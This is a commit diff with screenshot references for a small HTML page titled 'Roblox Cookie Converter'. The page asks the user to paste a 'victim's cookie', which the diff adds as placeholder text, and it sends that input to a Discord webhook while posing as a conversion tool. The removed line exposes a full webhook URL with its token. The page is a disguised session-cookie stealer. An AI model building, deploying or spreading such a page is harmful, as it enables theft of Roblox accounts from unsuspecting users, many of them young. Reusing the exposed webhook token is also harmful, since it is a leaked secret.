

Before and after one commit to potatofinder/discordwebhooksender, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 84-534 px from the top of the page, without its empty margins (250-1029 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -52,12 +52,12 @@
   </head>
   <body>
     <div id="title">🤖 Roblox Cookie Converter 🚀</div>
-    <textarea id="message"></textarea><br>
-    <button id="sendButton">Send Message</button>
+    <textarea id="message" placeholder="Type the victim's cookie here..."></textarea><br>
+    <button id="sendButton">Convert</button>
     <script>
       function sendMessage() {
         const message = document.getElementById("message").value;
-        const webhookUrl = "https://discord.com/api/webhooks/1237584893756575845/AP_2URcUznCp86IZ2GlJeJxNfyr6TXKxhA1wjU7YZvh-SKXSK6OuEaBvWvoqC6zDcfBO";
+        const webhookUrl = "YOUR_DISCORD_WEBHOOK_URL";
 
         fetch(webhookUrl, {
           method: "POST",
```
